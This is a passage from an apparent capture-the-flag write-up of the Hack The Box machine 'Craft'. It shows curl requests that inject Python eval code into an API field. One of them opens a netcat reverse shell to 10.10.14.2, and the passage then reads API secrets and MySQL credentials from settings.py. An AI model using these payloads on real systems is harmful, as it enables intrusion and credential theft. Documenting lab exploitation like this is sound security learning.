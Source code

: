 When doing a GET, I need to specify the page so I can confirm it's been added:

`curl -k "https://api.craft.htb/api/brew/?per_page=50&page=47"
 {"id": 2351, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "0.950"}, {"id": 2352, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "0.400"}], "page": 47, "pages": 47, "per_page": 50, "total": 2341}`

Ok, now it's time to exploit that eval to gain RCE. Because I don't see the results of the eval, I'll first test that the eval works by doing a `sleep` for 5 seconds:

`curl -k -H "Accept: application/json" -H "Content-Type: application/json" -H "X-Craft-API-Token: $token" https://api.craft.htb/api/brew/ -XPOST -d '{"id": 1000, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "__import__(\"time\").sleep(5)"}'`

Then after I confirmed that the eval works, I'll use `subprocess` to spawn a reverse shell:

`curl -k -H "Accept: application/json" -H "Content-Type: application/json" -H "X-Craft-API-Token: $token" https://api.craft.htb/api/brew/ -XPOST -d '{"id": 1000, "brewer": "Snowscan", "name": "Snowscan", "style": "IPA", "abv": "__import__(\"subprocess\").check_output(\"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 4444 >/tmp/f\", shell=True) or 1"}'`

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.110] 43065
/bin/sh: can't access tty; job control turned off
/opt/app # id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)...
/opt/app #
```

Turns out this is just a container and I need to keep looking to get a shell on the host OS.

## Finding more credentials in MySQL

The `settings.py` file contains the MySQL credentials and the shared api key.

```
/opt/app/craft_api # cat settings.py
# Flask settings
FLASK_SERVER_NAME = 'api.craft.htb'
FLASK_DEBUG = False  # Do not use debug mode in production

# Flask-Restplus settings
RESTPLUS_SWAGGER_UI_DOC_EXPANSION = 'list'
RESTPLUS_VALIDATE = True
RESTPLUS_MASK_SWAGGER = False
RESTPLUS_ERROR_404_HELP = False
CRAFT_API_SECRET = 'hz66OCkDtv8G6D'

# database
MYSQL_DATABASE_USER = 'craft'
MYSQL_DATABASE_PASSWORD = 'qLGockJ6G2J75O'
MYSQL_DATABASE_DB = 'craft'
MYSQL_DATABASE_HOST = 'db'
SQLALCHEMY_TRACK_MODIFICATIONS = False
```
